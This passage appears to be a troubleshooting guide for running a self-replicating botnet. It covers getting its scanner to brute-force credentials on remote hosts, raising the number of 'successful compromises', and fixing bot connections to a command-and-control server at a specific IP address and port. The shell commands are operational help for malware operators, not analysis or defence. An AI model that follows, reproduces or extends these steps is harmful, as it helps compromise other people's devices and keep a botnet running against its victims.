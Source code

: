 ### **Issue 2: Scanner Not Working**
**Symptoms:**
- Bot starts but no scanner process
- No brute force attempts in logs

**Solutions:**
```bash
# Check if SELFREP flag is enabled
strings selfrep_debug | grep SELFREP

# Recompile with correct flags
make -f Makefile_debug clean
make -f Makefile_debug

# Check system resources
free -m
ulimit -n
```

### **Issue 3: No Successful Compromises**
**Symptoms:**
- Scanner running but no successful compromises
- Only connection attempts, no successful auth

**Solutions:**
```bash
# Check if targets are reachable
grep "Attempting to brute force IP" /tmp/selfrep_debug.log | \
  sed 's/.*IP \([0-9.]*\):.*/\1/' | head -5 | xargs -I {} ping -c 1 {}

# Check credential database
grep -c "add_auth_entry" scanner.c

# Monitor for longer period
./start_selfrep_debug.sh
# Let it run for 10-15 minutes
```

### **Issue 4: CNC Connection Failed**
**Symptoms:**
- Bot starts but can't connect to CNC
- No "Successfully connected to CNC server" in logs

**Solutions:**
```bash
# Check CNC server connectivity
ping -c 1 185.247.117.214
telnet 185.247.117.214 59666

# Check firewall/network
iptables -L
netstat -tuln | grep 59666

# Check if CNC server is running
# (This requires access to the CNC server)
```

